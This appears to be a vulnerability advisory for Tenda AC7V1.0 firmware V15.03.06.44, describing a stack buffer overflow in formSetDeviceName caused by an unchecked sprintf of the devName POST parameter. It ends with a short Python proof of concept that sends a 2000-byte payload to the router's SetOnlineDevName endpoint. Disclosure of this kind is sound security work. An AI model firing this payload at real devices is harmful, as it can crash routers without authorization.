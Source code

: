## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 has a stack overflow vulnerability located in the `formSetDeviceName` function. This function accepts the `devName` parameter from a POST request and passes it to the `set_device_name` function. Within `set_device_name`, the array `mib_vlaue` is fixed at 256 bytes. However, since the user has control over the input of `devName`, the statement `sprintf(mib_vlaue, "%s;1", dev_name);` leads to a buffer overflow. The user-supplied `devName` can exceed the capacity of the `mib_vlaue` array, thus triggering this security vulnerability.

![image-20240318160539150](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160539150.png)

![image-20240318160601400](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160601400.png)

![image-20240318160553514](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160553514.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*2000

data = {"mac": 1,"devName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318160837041](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160837041.png)
